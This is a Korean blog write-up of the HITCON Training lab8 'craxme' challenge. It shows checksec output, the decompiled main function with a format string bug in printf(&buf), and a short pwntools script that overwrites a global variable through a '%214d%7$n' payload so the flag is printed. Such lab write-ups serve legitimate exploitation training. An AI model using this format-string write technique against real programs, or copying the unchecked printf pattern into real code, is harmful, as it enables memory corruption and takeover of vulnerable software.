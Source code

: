 ```yaml
---
layout: post
title: "[HITCON Training] lab8"
comments : true
category : War Game
---
```


# 문제
***

craxme 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
craxme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2b264eb7dfa7fe74e2dce2cf802a6b5300737b65, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...
  ...
  read(0, &buf, 0x100u);
  printf(&buf);
  if ( magic == 218 )
  {
    system("cat /home/craxme/flag");
  }
  else if ( magic == 0xFACEB00C )
  {
    system("cat /home/craxme/craxflag");
  }
  else
  {
    puts("You need be a phd");
  }
  return 0;
}
```

magic에 저장된 값이 218이면 flag 값을 읽어온다.
그리고 if문에 들어가기 전에 호출하는 printf에 format string bug가 존재한다.

## exploit 방법
printf(&buf)를 하는 시점에 esp 값과 buf의 주소는 다음과 같다. <br/>
esp 값   -> 0xffffcef0 <br/>
buf 주소 -> 0xffffcf0c 

따라서 buf에서 magic의 주소값을 넣어주면 fsb를 통해서 magic에 원하는 값을 쓸 수 있다.  

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab8/craxme"

p=process(file_path)

p.recvuntil("magic :")

magic=0x0804a038

pay=p32(magic)
pay+="%214d"
pay+="%7$n"

p.send(pay)

time.sleep(0.1)

print p.recv(1000)
```

# 알게 된 것
***
1. "%숫자$n" 을 통해서 n+1번째 인자에 접근할 수 있다.
2. 위의 문제에서 send를 하고 바로 recv를 하면 ```system("cat /home/craxme/flag");```이 실행되기 전에 출력된 값만 recv하고 파이썬 프로세스가 종료된다. 따라서 send와 recv 사이에 time.sleep 함수를 넣어주어야 한다.

